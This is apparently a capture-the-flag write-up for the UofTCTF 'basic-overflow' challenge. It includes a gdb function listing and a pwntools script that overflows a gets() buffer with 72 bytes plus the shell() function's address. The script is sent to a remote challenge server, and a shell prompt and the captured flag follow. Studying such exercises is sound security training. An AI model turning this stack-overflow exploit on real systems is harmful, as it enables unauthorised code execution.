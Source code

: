 # Binary Exploitation

## basic-overflow

This challenge is simple.

It just gets input, stores it to a buffer.

It calls gets to read input, stores the read bytes to a buffer, then exits.

What is gets, you ask? Well, it's time you read the manual, no?

man 3 gets

Cryptic message from author: There are times when you tell them something, but they don't reply. In those cases, you must try again. Don't just shoot one shot; sometimes, they're just not ready yet.

File: https://cdn.discordapp.com/attachments/758115188796162088/1196758510529159188/basic-overflow?ex=65b8cb37&is=65a65637&hm=b7b63e4713cd015275e0d8e62937fcf51f951ff4fe47d81f9c93c2ec0f28e041&

---

### Solution

![decompile-main](https://media.discordapp.net/attachments/758115188796162088/1196756929658232882/image.png?ex=65b8c9be&is=65a654be&hm=2cb4f9cdf2e3fe9f2d87cb63c03152e623bbb3a5e274d7e60c747ada53b122dc&=&format=webp&quality=lossless&width=764&height=570)

![decompile-shell](https://media.discordapp.net/attachments/758115188796162088/1196944357052383263/image.png?ex=65b9784c&is=65a7034c&hm=deb98429523244f8fdd0a479d2c9a4c7fb8e8f23fc5b6cd9a31d15c9131cdd04&=&format=webp&quality=lossless&width=1048&height=502)


```bash
gdb-peda$ i functions 
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401030  execve@plt
0x0000000000401040  gets@plt
0x0000000000401050  _start
0x0000000000401080  _dl_relocate_static_pie
0x0000000000401136  shell
0x0000000000401156  main
0x0000000000401178  _fini
```

There is vuln at gets function. Spamm the stack until it overwrite the return address, then change it to the shell function address.

I found 72 bytes to reach return address from main.

```python
from pwn import *

# p = process("basic-overflow")
p = remote("34.123.15.202", 5000)

payload = b'A'*72 + p64(0x0000000000401136)
p.sendline(payload)
p.interactive()

"""
[+] Opening connection to 34.123.15.202 on port 5000: Done
[*] Switching to interactive mode
$ ls
flag
run
$ cat flag
uoftctf{reading_manuals_is_very_fun}
"""
```

### uoftctf{reading_manuals_is_very_fun}